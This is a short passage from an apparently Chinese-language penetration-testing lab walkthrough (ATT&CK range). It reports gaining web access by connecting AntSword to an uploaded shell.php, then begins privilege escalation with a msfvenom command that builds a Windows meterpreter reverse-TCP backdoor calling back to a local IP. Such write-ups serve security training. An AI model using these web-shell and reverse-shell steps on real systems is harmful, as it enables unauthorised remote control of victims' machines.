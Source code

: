 11. 蚁剑连接shell.php，成功拿下web权限！

    ![3_13.png](img/ATT&CK1/3/13.png)

# 权限提升

1. 使用msf生成后门程序并上传至目标主机

   ``` powershell
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.133 LPORT=4444 -f exe > shell.exe
   ```
